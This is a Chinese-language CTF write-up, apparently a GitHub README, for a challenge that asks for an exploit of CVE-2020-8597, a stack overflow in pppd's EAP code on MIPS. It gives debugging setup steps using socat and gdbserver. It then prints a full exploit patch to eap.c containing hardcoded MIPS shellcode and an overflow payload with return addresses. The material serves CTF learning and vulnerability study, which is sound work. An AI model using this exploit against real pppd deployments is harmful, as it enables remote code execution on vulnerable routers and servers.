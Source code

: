 ## pppd
[中文](./README_zh.md) [English](./README.md)
[attachment](./attachment.zip)

这道题是要求写CVE-2020-8597的1 day exp
这个cve本身其实是非常简单的，就单纯一个栈溢出
但是难的是与pppd进行通信和在mips环境下面进行调试

在比赛的时候大部分队伍都没有找到与pppd通信的办法，因此我就直接放出提示，使用socat与pppd进行通信

接下来介绍的是如何调试的方法

首先题目默认关闭了network

在/etc/init.d/S40network, 将注释全部删掉，然后修改start.sh脚本，将-net none删除，加上-redir tcp:9999::9999 -redir tcp:4242::4242，这样就配置好network了

然后修改/etc/inittab
将
```
ttyS0::sysinit:/pppd auth local lock defaultroute nodetach 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8 require-eap lcp-max-configure 100
```
修改为
```
ttyS0::sysinit:/bin/sh
```

然后到github下载一个[gdbserver](https://github.com/hugsy/gdb-static/blob/master/gdbserver-7.12-mips-be), 重新打包一个cpio，启动

进入系统后默认得到一个shell，系统里面自带一个socat

执行
```
socat pty,link=/dev/serial,raw tcp-listen:9999 &
/pppd /dev/serial 9600 local lock defaultroute 172.16.1.1:172.16.1.2 ms-dns 8.8.8.8 require-eap lcp-max-configure 100
```
之后执行下面的命令获取pppd的pid
```
ps |grep pppd
```
使用gdbserver attach上pppd
```
./gdbserver --attach 0.0.0.0:4242 pid
```
然后在外面使用gdb-multiarch去连接gdbserver

之后下载一个pppd的源码，编译
执行
```
socat pty,link=/tmp/serial,rawer tcp:127.0.0.1:9999 &
pppd noauth local lock defaultroute debug nodetach /tmp/serial 9600 user notadmin password notpassword
```
这样就成功进行调试了

之后根据https://gist.github.com/nstarke/551433bcc72ff95588e168a0bb666124的操作patch源码，写exp即可

exp patch如下
```
--- ppp-ppp-2.4.7/pppd/eap.c	2014-08-09 12:31:39.000000000 +0000
+++ ppp-poc/ppp-ppp-2.4.7/pppd/eap.c	2020-04-12 03:23:54.321773453 +0000
@@ -1385,8 +1385,46 @@
 			esp->es_usedpseudo = 2;
 		}
 #endif /* USE_SRP */
-		eap_send_response(esp, id, typenum, esp->es_client.ea_name,
-		    esp->es_client.ea_namelen);
+		//eap_send_response(esp, id, typenum, esp->es_client.ea_name,
+		//    esp->es_client.ea_namelen);
+#define PAY_LEN 256
+		char sc[PAY_LEN];
+		memset(sc, 'C', PAY_LEN);
+		int* shellcode = (int*)sc;
+		shellcode[0]=0x3c09616c;
+		shellcode[1]=0x3529662f;
+		shellcode[2]=0xafa9fff8;
+		shellcode[3]=0x2419ff98;
+		shellcode[4]=0x3204827;
+		shellcode[5]=0xafa9fffc;
+		shellcode[6]=0x27bdfff8;
+		shellcode[7]=0x3a02020;
+		shellcode[8]=0x2805ffff;
+		shellcode[9]=0x2806ffff;
+		shellcode[10]=0x34020fa5;
+		shellcode[11]=0x101010c;
+		shellcode[12]=0xafa2fffc;
+		shellcode[13]=0x8fa4fffc;
+		shellcode[14]=0x3c19ffb5;
+		shellcode[15]=0x3739c7fd;
+		shellcode[16]=0x3202827;
+		shellcode[17]=0x3c190101;
+		shellcode[18]=0x373901fe;
+		shellcode[19]=0x3c060101;
+		shellcode[20]=0x34c60101;
+		shellcode[21]=0x3263026;
+		shellcode[22]=0x34020fa3;
+		shellcode[23]=0x101010c;
+		shellcode[24]=0x3c05004a;
+		shellcode[25]=0x34a53800;
+		shellcode[26]=0x20460002;
+		shellcode[27]=0x3c190042;
+		shellcode[28]=0x37396698;
+		shellcode[29]=0x320f809;
+		shellcode[30]=0x0;
+		sc[PAY_LEN-1] = '\0';
+
+		eap_send_response(esp, id, typenum, shellcode, PAY_LEN);
 		break;

 	case EAPT_NOTIFICATION:
@@ -1452,8 +1490,21 @@
 		BZERO(secret, sizeof (secret));
 		MD5_Update(&mdContext, inp, vallen);
 		MD5_Final(hash, &mdContext);
-		eap_chap_response(esp, id, hash, esp->es_client.ea_name,
-		    esp->es_client.ea_namelen);
+		//eap_chap_response(esp, id, hash, esp->es_client.ea_name,
+		//    esp->es_client.ea_namelen);
+		char payload[1024];
+                memset(payload, 'A', 1023);
+                memset(payload, 'B', 0x2a0);
+		int *tpayload = (int*)(payload + 0x2a0 - 4);
+		//*tpayload = 0x040A0BC;
+		*tpayload = 0x4083FC;
+		//*(tpayload-1) = 0x043EF9C;
+		*(tpayload-1) = 0x43EF9C;
+		*(tpayload-5) = 0x4a7a0c-8;
+
+                payload [1023] = '\0';
+                eap_chap_response(esp, id, hash, payload, 1024);
+		exit(0);
 		break;

 #ifdef USE_SRP
```
